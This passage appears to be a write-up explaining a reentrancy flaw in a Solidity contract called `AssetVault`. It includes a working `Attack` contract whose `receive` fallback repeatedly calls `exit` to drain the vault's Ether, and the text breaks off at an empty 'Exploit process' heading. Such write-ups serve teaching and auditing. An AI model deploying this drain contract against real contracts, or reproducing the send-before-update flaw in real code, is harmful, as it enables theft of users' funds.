 ```solidity
contract Attack {
    AssetVault public vault; // Reference to the vulnerable AssetVault
    constructor(address _vault) {
        vault = AssetVault(_vault);
    }
    function attackDeposit() public payable {
        vault.enter{value: msg.value}(); // Deposits Ether into the vault
    }
    function attackWithdraw(uint256 _amount) public {
        vault.exit(_amount); // Initiates withdrawal to trigger reentrancy
    }
    receive() external payable {
        if (address(vault).balance > 0) {
            vault.exit(1 ether); // Keep calling exit until funds are drained
        }
    }
}
```

The attacker first need to deposit Ether into the vault using `enter` function, and ensures their account has sufficient credit to call the `exit` function without triggering the `Insufficient balance`  check. The exploit will begin when the attacker calls `exit` function. During this function’s execution, the Ether transfer operation triggers the `receive` fallback function in the `Attack` contract. From there, the contract recursively calls `exit` again before the `_credits` mapping is updated. 

# Explanation of Exploit

## Key vulnerability

The `exit` function in the `AssetVault` contract performs Ether transfer to the user before updating the `_credits` mapping. This allows an attacker to call the `exit` function repeatedly (reentrancy) to withdraw more funds than they deposited. 

## Exploit process
